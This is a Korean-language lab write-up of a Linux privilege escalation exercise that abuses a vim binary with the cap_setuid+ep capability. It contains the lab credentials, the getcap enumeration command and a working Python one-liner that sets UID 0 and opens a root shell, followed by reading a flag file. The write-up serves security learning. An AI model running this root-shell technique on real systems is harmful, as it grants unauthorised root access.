





# Linux Privilege Escalation: Capabilities
> `vim` 바이너리에 Capabilities가 부여되어 있는 점을 악용하여 루트 권한 획득 및 플래그 탈취에 성공하였다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.175.127
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: Capabilities가 설정된 `vim`을 통한 루트 쉘 획득
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속
```bash
ssh karen@10.10.175.127
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.



---

### 2.2 Capabilities 권한이 설정된 바이너리 검색


```bash
getcap -r / 2>/dev/null
```
- 시스템 전반에서 Capabilities가 부여된 파일을 검색한 결과 `/home/karen/vim` 바이너리에 `cap_setuid+ep` 권한이 부여되어 있음을 확인하였다.



---

### 2.3 GTFOBins 참고

- https://gtfobins.github.io/ 사이트를 참고하여 `vim` 명령어에 `cap_setuid+ep` Capabilities가 부여되어 있을 경우 Python을 통해 루트 권한으로 쉘을 실행할 수 있다는 점을 확인하였다.

---

### 2.4 루트 쉘 실행

- 우선 `/home/karen/vim` 바이너리를 vi 편집기로 열어 `:version` 명령어를 실행하여 `+python3` 기능이 포함되어 있음을 확인하였다. 이는 GTFOBins의 루트 쉘 실행 코드가 정상 동작할 수 있는 환경임을 의미한다.



```bash
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
- Capabilities 권한을 가진 vim을 통해 Python3 모듈로 UID를 0으로 설정하고 쉘을 실행함으로써 루트 권한을 획득하였다.



---

### 2.5 플래그 파일 찾기 및 획득
```bash
find / -name flag4.txt
cat /home/ubuntu/flag4.txt
```
- 루트 권한으로 시스템 전체를 검색하여 `/home/ubuntu/flag4.txt` 플래그 파일을 찾고, 내용을 확인하였다.




---

## 느낀 점

실습을 통해 **Capabilities가 부여된 명령어 또한 루트 권한 상승에 직접적으로 사용될 수 있는 보안 위협이 될 수 있다는 점**을 확인하였다. 특히 텍스트 편집기인 `vim`과 같이 평범해 보이는 프로그램이라도 **`cap_setuid+ep` 권한이 존재할 경우 Python 모듈을 통해 손쉽게 루트 쉘 획득이 가능한 매우 치명적인 취약점**으로 이어질 수 있었다.

